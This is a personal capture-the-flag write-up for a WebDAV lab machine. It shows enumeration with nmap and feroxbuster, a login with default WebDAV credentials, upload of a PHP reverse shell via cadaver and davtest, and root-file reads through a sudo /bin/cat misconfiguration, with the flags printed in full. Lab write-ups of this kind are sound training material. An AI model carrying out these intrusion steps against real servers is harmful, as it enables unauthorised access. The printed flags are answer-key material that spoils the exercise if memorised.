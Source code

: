 ## Nmap

```
─[glack@parrot]─[~/Desktop/THM]
└──╼ $nmap -sV -sT -A 10.10.222.224
Starting Nmap 7.93 ( https://nmap.org ) at 2023-07-02 19:21 IST
Nmap scan report for 10.10.222.224
Host is up (0.13s latency).
Not shown: 999 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Apache2 Ubuntu Default Page: It works
|_http-server-header: Apache/2.4.18 (Ubuntu)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 23.09 seconds
```

## HTTP

```
─[glack@parrot]─[~/Desktop/THM]
└──╼ $feroxbuster -u http://10.10.222.224/ -w /usr/share/wordlists/small.txt -n -x html,php
```

found login at

```
401       14l       54w      460c http://10.10.195.171/webdav
```


Used write up and found 


A basic search for `webdav default credentials` will lead us to [this page](http://xforeveryman.blogspot.com/2012/01/helper-webdav-xampp-173-default.html) and give us the default credentials: `wampp:xampp`.


There is a file password.dav with the contents

```
wampp:$apr1$Wm2VTkFL$PVNRQv7kzqXQIHe14qKA91
```


https://hashcat.net/wiki/doku.php?id=example_hashes

From here i found out this is a 

|   |   |
|---|---|
|1600|Apache $apr1$ MD5, md5apr1, MD5 (APR) 2|

```bash
┌─[glack@parrot]─[~/Desktop/THM/dav]
└──╼ $hashcat -a 0 -m 1600 forjohn.txt /usr/share/wordlists/rockyou.txt
```

tried this command but was unable to find the desired hash in rockyou wordlist

Upon reading a writeup i found out that a `cadaver` tool is required to interact with a webdav directory listing

Webdav info

![wiki protocol](https://kartibok.github.io/Capture-the-Flag/images/dav_webdav_protocol.png)  


![cadaver](https://kartibok.github.io/Capture-the-Flag/images/dav_cadaver.png)


## Cadaver

```
dav:!> help
Available commands: 
 ls         cd         pwd        put        get        mget       mput       
 edit       less       mkcol      cat        delete     rmcol      copy       
 move       lock       unlock     discover   steal      showlocks  version    
 checkin    checkout   uncheckout history    label      propnames  chexec     
 propget    propdel    propset    search     set        open       close      
 echo       quit       unset      lcd        lls        lpwd       logout     
 help       describe   about      
Aliases: rm=delete, mkdir=mkcol, mv=move, cp=copy, more=less, quit=exit=bye

```

cadaver provide the above list of commands/options to interact with a webdav server.

Upon rechecking the default creds url, i saw that the cadaver command can also be used like this to interact with a specific web server

```
─[✗]─[glack@parrot]─[~/Desktop/THM/dav]
└──╼ $sudo apt install cadaver
```

```
─[glack@parrot]─[~/Desktop/THM/dav]
└──╼ $cadaver http://10.10.85.241/webdav
```

```
Authentication required for webdav on server `10.10.85.241':
Username: wampp
Password: 

```


Upon checking the available options we understand that we are able to upload onto the server using put command

```
dav:/webdav/> put php-reverse-shell.php 
```

I uplaoded my php reverse shell (changed the ip in the reverse shell file)

started a netcat listener and triggered the php from the browser and i got a shell

```
$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

and the user flag in the 
`merlin` directory

```
$ cat user.txt
449b40fe93f78a938523b7e4dcd66d2a

```

## Priv Esc

Upon checking the standard methods for priv esc, we observer that the `www-data` user is able to run the `/bin/cat` command as super user

```
$ sudo -l
Matching Defaults entries for www-data on ubuntu:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on ubuntu:
    (ALL) NOPASSWD: /bin/cat

```

Using this we are easily able to read the root  files and folder/flag without the root shell

```
$ sudo /bin/cat /root/root.txt
101101ddc16b0cdf65ba0b8a7af7afa5

```


---



2nd time solving


- used [[1. davtest]]. command below
```
davtest -uploadfile php-reverse-shell.php -uploadloc webdav.php -url http://10.10.78.230/webdav -auth wampp:xampp   ✔  18:54:54   
********************************************************
 Testing DAV connection
OPEN		SUCCEED:		http://10.10.78.230/webdav
********************************************************
 unless  Uploading file
Upload succeeded: http://10.10.78.230/webdav/webdav.php
```

- got a reverse shell 
```
$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data
```

- 1st flag
```
$ cat user.txt
449b40fe93f78a938523b7e4dcd66d2a
```

- priv esc and 2nd flag

```
$ sudo -l 
Matching Defaults entries for www-data on ubuntu:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on ubuntu:
    (ALL) NOPASSWD: /bin/cat
$ sudo /bin/cat /root/root.txt
101101ddc16b0cdf65ba0b8a7af7afa5
$ 
```

